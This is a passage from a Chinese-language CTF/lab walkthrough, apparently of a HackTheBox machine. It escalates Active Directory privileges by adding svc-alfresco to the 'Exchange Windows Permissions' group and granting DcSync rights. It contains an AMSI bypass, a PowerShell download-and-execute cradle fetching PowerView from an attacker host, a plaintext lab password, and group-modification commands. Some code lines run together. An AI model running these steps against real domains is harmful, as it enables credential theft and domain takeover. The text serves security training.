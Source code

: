 为了充分利用这种关系，需要做两件事:

*   “Exchange Windows 权限”组的成员身份
*   授予目标用户的 DcSync 权限

包含 PowerShell 代码片段是为了向使用 PowerView.ps1 的 [Dev 分支](https://github.com/PowerShellMafia/PowerSploit/tree/dev)的帐户授予 DcSync 特权。

Sean Metcalf 在他的博客[中讨论了对根域具有`WriteDacl`权限的“Exchange Windows 权限”组的这种配置，以及其他常见的 Exchange，减少了 Active Directory 中的域管理员的 Exchange 权限路径](https://adsecurity.org/?p=4119)。

使用`evil-winrm`执行这些步骤来提升权限需要几个步骤:

1.  绕过 AMSI
2.  下载 PowerView.ps1
3.  为`svc-alfresco`创建一个 PowerShell 凭证对象
4.  将`svc-alfresco`添加到“Exchange Windows 权限”组
5.  授予`svc-alfresco` DcSync 权限

**步骤 1** 利用`evil-winrm`的内置模块:一旦产生了提示，只需输入`menu`来加载可用的模块，然后输入`Bypass-4MSI`。

**步骤 2** 通过 python3 的 HTTP 服务器本地托管 PowerView.ps1，并通过 PowerShell 下载支架将其下载到内存中来完成:

主机 PowerView.ps1:

```
sudo python3 -m http.server 80
```

下载 PowerView.ps1:

```
IEX(New-Object Net.WebClient).downloadString('[http://attacker/PowerView.ps1'](http://10.10.14.16/PowerView.ps1'))
```

**步骤 3** 创建一个 PowerShell 凭证对象，以在`svc-alresco`的上下文中执行 PowerView 的 cmdlets:

```
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword)
```

**步骤 4** 可以使用标准 DOS 命令或通过 PowerView 完成，以达到相同的结果:

DOS:

```
net group “Exchange Windows Permissions” svc-alfresco /add
net group “Exchange Windows Permissions”
```

PowerView:

```
Add-AdGroupMember -Credential $Cred \
-Identity "Exchange Windows Permissions" \
-Members svc-alfrescoGet-AdGroupMember -Credential $Cred \
-Identity "Exchange Windows Permissions"
```

**步骤 5** 使用 PowerView 中的`Add-DomainObjectAcl` cmdlet 授予 DcSync 权限:
